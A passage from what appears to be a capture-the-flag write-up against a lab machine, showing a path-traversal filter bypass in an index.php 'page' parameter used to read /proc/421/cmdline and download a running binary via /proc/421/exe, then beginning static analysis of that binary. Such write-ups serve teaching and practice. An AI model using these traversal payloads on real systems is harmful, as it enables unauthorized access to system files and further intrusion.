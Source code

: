 ```http
GET /index.php?page=js/.....///.....///.....///.....///proc/421/cmdline HTTP/1.1
Host: 10.129.160.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Apr 2022 23:43:33 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 31

/usr/bin/activate_license1337
```

Download this file.

```bash
$ curl -s -k -X $'GET' \
    -H $'Host: 10.129.160.64' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://10.129.160.64/index.php?page=js/.....///.....///.....///.....///proc/421/exe' -o activate_license1337

$ file activate_license1337
activate_license1337: gzip compressed data, max speed, from Unix, original size modulo 2^32 22536

$ mv activate_license1337 activate_license1337.gz

$ gzip -d activate_license1337.gz
```

---

## `activate_license1337` Binary Exploitation

### Basic Static Analysis

`activate_license1337` is a dynamically linked 64-bit ELF.

```bash
$ file activate_license1337
activate_license1337: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=554631debe5b40be0f96cabea315eedd2439fb81, for GNU/Linux 3.2.0, with debug_info, not stripped
```
